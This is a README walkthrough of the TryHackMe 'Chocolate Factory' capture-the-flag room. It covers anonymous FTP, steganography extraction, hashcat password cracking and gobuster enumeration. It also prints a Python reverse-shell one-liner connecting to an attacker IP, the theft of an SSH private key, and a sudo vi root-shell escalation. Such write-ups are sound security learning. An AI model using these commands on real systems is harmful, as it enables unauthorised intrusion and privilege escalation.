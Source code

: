 # Chocolate Factory CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Chocolate Factory** CTF challenge on [TryHackMe](https://tryhackme.com/room/chocolatefactory). 
---

after scanning we know about a lot of open ports

![scn](imgs/scn.png "scn")

we can login to ftp as anonymous and we can find `gum_room.jpg`

![ftp](imgs/ftp.png "ftp")

by using `stegseek` we found hidden file containing base64 ecoded message, it looks like `/etc/shadow` file

![shadow](imgs/shadow.png "shadow")

we can use hashcat to crack the password:

```
hashcat -a 0 -m 1800 hs.lst /usr/share/wordlists/rockyou.txt
```

![cat](imgs/cat.png "cat")

by using gobuster i found home.php

```
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://$IP -x html,php
```

![go](imgs/go.png "go")

on home.php we can execute commands, we can simply use this code to get reverse shell as www-data 

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.91.59",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

![www](imgs/www.png "www")

by using ls -la we see interesting file key_rev_key which is ELF executable

by using strings command we found some type of key 

![strings](imgs/strings.png "strings")

we can also cd into /home/charlie and copy ssh private key

![teleport](imgs/teleport.png "teleport")

we can use it to login as charlie without a passphrase, and grab user flag

![user](imgs/user.png "user")

by using linpeas we know about sudo -l output 

![lin](imgs/lin.png "lin")

by checking the GTFObins we know we can use this one-liner to get root shell

![gtfo](imgs/gtfo.png "gtfo")

```
sudo vi -c ':!/bin/sh' /dev/null
```

we are now root but we need to execute some python script

![root](imgs/root.png "root")

after running python script we found root flag

![flag](imgs/flag.png "flag")

# MACHINE PWNED

